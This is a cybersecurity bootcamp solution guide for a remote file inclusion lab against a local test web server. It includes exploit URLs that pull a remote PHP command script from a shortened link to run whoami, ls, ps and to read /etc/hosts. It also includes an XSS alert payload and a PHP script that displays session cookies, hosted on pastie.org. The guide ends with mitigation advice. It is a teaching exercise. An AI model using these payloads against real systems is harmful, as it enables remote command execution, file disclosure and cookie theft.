 ## Solution Guide: Remote File Inclusion Activity 

In this activity, you were tasked with first referencing a non-malicious URL to determine how it modifies the webpage. You were then tasked with referencing a remote malicious script contained within a webpage. You then modified the URL to run command-line commands with this malicious script. As a bonus, you were challenged with trying to combine RFI and XSS with a single exploit.

---

1. Test the intended use of the web application.

    - Select `File1.php`, and note the following:

      - The URL changes to the following: <http://192.168.13.25/vulnerabilities/fi/?page=file1.php>.

      - The content on the webpage is displayed as follows:
      
              Hello admin
              Your IP address is: 192.168.13.1
          
    - Select the other links (`File2.php` and `File3.php`) and note their URL and webpage changes.

2. Test an unintended function of the application by referencing a remote webpage.

    - Note that you just tested how the application is designed to access a file on the Replicants web server.

    - Let's test what will happen if the URL is modified to reference an external or remote webpage.
    
    - Change the parameter of the URL to reference an external URL (<http://www.example.com>) instead of one of the files (`File1.php`). For example:
    
      - <http://192.168.13.25/vulnerabilities/fi/?page=http://www.example.com>
      
    - Note how the example.com webpage has been added to the top of the Replicants website.

      - Test other webpages by replacing example.com with other URLs.
        
    - Note that this illustrates that the webpage is designed to allow external references.

    - Let's try something a little more malicious by referencing a remote script instead of a webpage!
    
3. Test remote file inclusion.

    - We just saw how this webpage allows refrencing external sources such as webpages. 

      - Let's see what will happen if we reference a malicious external script instead of a webpage.
      
    - Using your browser in Vagrant, view the following webpage:

      - <https://tinyurl.com/y498epmz>
      
    - Note how this looks exactly like the script that was used in the local file inclusion activity.

      - But this script is hosted remotely!
      
    - Change the URL to reference this webpage, instead of example.com: <http://192.168.13.25/vulnerabilities/fi/?page=https://tinyurl.com/y498epmz>.

    - Note that this will not do anything; similar to the remote inclusion activity, we have to provide the script with a command-line command!

    - Let's start with the `whoami` command.

      - To add this command into the URL, add `cmd=whoami&` between `?` and `page`, as follows:
      
        - `http://192.168.13.25/vulnerabilities/fi/?cmd=whoami&page=https://tinyurl.com/y498epmz`
      
    - Run the command and note the results on the top left of the page.

    - Now see if you can modify the command to run the following:

      - `ls`
    
      - `ps`
    
      - cat the `/etc/hosts` file

    - **Solution**: Here are the commands to run:

        - `ls`:  `http://192.168.13.25/vulnerabilities/fi/?cmd=ls&page=https://tinyurl.com/y498epmz`

        - `ps`: `http://192.168.13.25/vulnerabilities/fi/?cmd=ps&page=https://tinyurl.com/y498epmz`

        - `cat the /etc/hosts file`: `http://192.168.13.25/vulnerabilities/fi/?cmd=cat%20../../../../../etc/hosts&page=https://tinyurl.com/y498epmz`
        
4. **Bonus**: Combine remote file inclusion and cross-site scripting.

    - So far you have been able to run **remote file inclusion** by running remote scripts against a vulnerable web server.

    - These scripts have referenced an external webpage that contained a malicious script.

    - Let's see what would happen if you referenced a script that contained a **cross-site scripting** payload.

    - Using your browser again, look at the following webpage: 

      - <https://tinyurl.com/yxk853vy>

      - Note how this page contains a script that contains XSS payloads we developed previously.

        - `<script>alert("Hey you have been hacked")</script>`

    - Note that the exception is that the XSS payload is embedded within a PHP script.

    - Change the URL to reference this webpage, to see if you can get the XSS payload to execute the popup!

    - **Solution**: The URL to get the XSS payload to execute:

      - `http://192.168.13.25/vulnerabilities/fi/?page=https://tinyurl.com/yxk853vy`

5. **Super Bonus**: Develop your own malicious script to capture cookies with a remote file inclusion exploit.

    - So far you have referenced pre-built webpages that contained malicious PHP script.

    - Let's see if you can write your own malicious PHP script webpage.

      - When your webpage is referenced, a script should run and pop up with the user's session cookies.

    - **Hint**: Look at the format of the script from Step 4, and modify this script to pop up with the session cookies: 

        `<script>alert("Hey you have been hacked")</script>`

    - **Hint**: To build a webpage with the script, do the following:

        - Add your script on the following webpage: <http://pastie.org/>.
      
        - Select Save Paste and then Raw on the top right to display the raw code.
      
        - This will create a unique URL with your code.
          
   - Reference the URL of this raw code from the same vulnerable webpage.

      - Run your URL and see if you can successfully get the session cookies to appear on a pop-up!

    - **Solution**

      - The script to pop up the session cookie will look like the following:

              <?php 
              $html = <<<EOT

              <script>alert(document.cookie)</script>

                EOT;

                echo $html;
                ?> 
                
      - Save the script in <pastie.org>, then select Save Paste > Raw.

        - A new URL will be created. For example:

          - `http://pastie.org/p/6MA1u2AP1qzKzDaxXi8Zwv/raw`

          - Note that your URL will be different.
          
      - Reference the example URL with the following URL:

        - `http://192.168.13.25/vulnerabilities/fi/?page=http://pastie.org/p/6MA1u2AP1qzKzDaxXi8Zwv/raw`
        
      - A pop-up will display your session cookies! 

6. Answer the following mitigation strategy questions:

    - Describe to your management how a malicious user might take advantage of the vulnerabilities that you just exploited. Be sure to include the potential impact.

      - There are many acceptable answers; if a web application is vulnerable to remote file injection, a variety of malicious payloads can be exploited. Impacts can include the following:

          - Display of confidential data, such as user accounts, password hashes, service accounts, network information, or system processes.
        
          - Deletion or modification of the preceding confidential data, which can lead to reputation issues and system outages.

    - Describe in plain language to your manager how you can mitigate the vulnerabilities you just exploited.

      - There are many acceptable answers, all involving input validation. Options can include the following:
      
          - Limit access to remote files in your web application.
      
          - If the file has to be remote, use server-side validation to only allow certain files to be accessed.
      
          - When developing an application, DO NOT use arbitrary input data in a literal file inclusion request.
      
            - Use an allow list of acceptable files and file types.

---

© 2022 edX Boot Camps LLC. Confidential and Proprietary. All Rights Reserved. 
